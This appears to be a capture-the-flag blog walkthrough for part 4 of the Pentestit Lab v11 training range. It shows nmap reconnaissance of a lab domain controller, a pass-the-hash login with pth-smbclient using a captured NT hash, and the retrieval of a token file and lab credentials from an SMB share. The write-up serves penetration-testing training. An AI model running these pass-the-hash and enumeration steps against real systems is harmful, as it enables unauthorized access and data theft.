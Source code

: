 ```yaml
---
layout: single
title: "Pentestit Lab v11 - AD Token (4/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
related: true
comments: true
---
```


In my previous post "[Pentestit Lab v11 - RDP Token (3/12)](https://jhalon.github.io/pentestit-lab-11-rdp-token/)", we footprinted the Office 2 subnet, utilized SSH tunneling to attain RDP access, enumerated and brute forced RDP username/passwords using XFreeRDP, utilized the MS16-032 Privilege Escalation Exploit, found a user password hash and found our third token. Today we will return back to the Main Office to utilize our newly found hash to compromise the AD Server, and the AD Token - which will include the following:

* Footprinting the AD Server
* Leveraging PTH (Pass the Hash) for SMB Authentication
* Finding the AD Token

## Footprinting the AD Server

If you recall back to my previous post, after we compromised the RDP Token we began to carry out some Post-Exploitation Intelligence Gathering and found a password hash for the user arm554. Now that we have a legitimate hash we can go ahead and attempt to go back and attack the AD server.

Looking at the [Network Map](https://jhalon.github.io/images/ptl-3.png) we see that the AD Server is located in the Main Office using the IP of __172.16.0.10__.

At this point I hope you didn't close out your OpenVPN connection that we brute forced during [Pentestit Lab v11 - Site Token](https://jhalon.github.io/pentestit-lab-11-site-token/). If you did, and forgot how to re-connect back to the Main Office, then I suggest you go back and read on how we accomplished that task.

Once you are connected back to the Main Office, let's fire up Nmap and scan the AD server to see if there are any open ports that might be of interest to us.

```console
root@kali:~/pentestit# nmap -A -sV -n 172.16.0.10

Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-17 22:08 CDT
Nmap scan report for 172.16.0.10
Host is up (0.46s latency).
Not shown: 983 filtered ports
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2017-07-01 04:23:36Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: TESTLAB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: Test.Lab, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WIN-U9CSMSIDNP7.Test.Lab
| Not valid before: 2017-06-29T06:47:11
|_Not valid after:  2017-12-29T06:47:11
|_ssl-date: 2017-07-01T04:25:44+00:00; -16d22h45m39s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: WIN-U9CSMSIDNP7; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16d22h45m39s, deviation: 0s, median: -16d22h45m40s
|_nbstat: NetBIOS name: WIN-U9CSMSIDNP7, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:2f:9d:23 (Oracle VirtualBox virtual NIC)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-U9CSMSIDNP7
|   NetBIOS computer name: WIN-U9CSMSIDNP7\x00
|   Domain name: Test.Lab
|   Forest name: Test.Lab
|   FQDN: WIN-U9CSMSIDNP7.Test.Lab
|_  System time: 2017-06-30T21:25:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_smbv2-enabled: Server supports SMBv2 protocol

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   505.51 ms 10.255.0.1
2   505.54 ms 172.16.0.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 283.98 seconds
```

After reviewing the Nmap scan we that TCP/139 and TCP/445 are open, thus NetBIOS and [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) are currently open and accepting connections.

Now if we look toward the bottom of the scan we can see that Namp executed a smb script scan against the AD server, meaning that we are able to connect to the AD via SMB with user level authentication.

We already have the username/password for __arm554__ so let's attempt to connect to the AD Server using [smbclient](https://www.samba.org/samba/docs/man/manpages-3/smbclient.1.html) with the username arm554.

```console
root@kali:~/pentestit# smbclient -L 172.16.0.10 -U arm554
WARNING: The "syslog" option is deprecated
Enter arm554's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

Unfortunately it seems we were able to connect, but the login failed - so maybe the password we had was bad?

## Leveraging PTH (Pass the Hash) for SMB Authentication

Judging by the nmap scan, this is a Windows 2012 R2 Sever and it currently supports SMBv2. Since we know that arm554 is a valid user, and we found his hash on the compromised RDP machine, what we can do is attempt something called [Pass the Hash](https://en.wikipedia.org/wiki/Pass_the_hash), which should allow us to authenticate to the AD machine remotely without knowing the legitimate user's password.

We can utilize this awesome tool called [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) to pass the hash via a smb client. If all goes well, we should be able to list the active shares on AD.

Let's utilize the following command to do just that...

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	files           Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Connection to 172.16.0.10 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
NetBIOS over TCP disabled -- no workgroup available
```

## Finding the AD Token

Awesome! So we were able to successfully list all the active shares on the AD Server via Pass the Hash! The share titled __files__ looks interesting, so let's go ahead and connect to it via SMB again and see what's inside.

```console
root@kali:~/pentestit# pth-smbclient --user=arm554 --pw-nt-hash -m smb3 \\\\172.16.0.10\\files 6361DEA164EE8FE91FE7B117FBC9CA5E
WARNING: The "syslog" option is deprecated
Domain=[TESTLAB] OS=[] Server=[]
smb: \> ls
  .                                   D        0  Fri Jun 30 15:40:00 2017
  ..                                  D        0  Fri Jun 30 15:40:00 2017
  network_test.txt                    A      103  Fri Jun 30 15:43:19 2017
  token.txt                           A       14  Fri Jun 30 20:14:55 2017

		10395647 blocks of size 4096. 8167939 blocks available

smb: \>
```

Running `ls` via the smb client shoes us that there are two files in the __files__ share, a network test document, and the token!

Let's download those files to our computer so we can read them.

```console
smb: \> get network_test.txt
getting file \network_test.txt of size 103 as network_test.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> get token.txt 
getting file \token.txt of size 14 as token.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Now from out Kali machine, we can read both files - let's see what the __network\_test.txt__ files has.

```console
root@kali:~/pentestit# cat network_test.txt 
Hi, mate! Need to test ARP-table in DIR subnet.
I'll install intercepter admin:77_GrantedSuperAdmin_77
```

Awesome! We got a username and password for the DIR subnet, as well as a hint! ARP-table... hmm, what could it be used for? A well, we will just have to save this and find out later!

## Token (4/12)

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to compromise the AD sever via Pass the Hash!

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (5/12) - The Director Token!
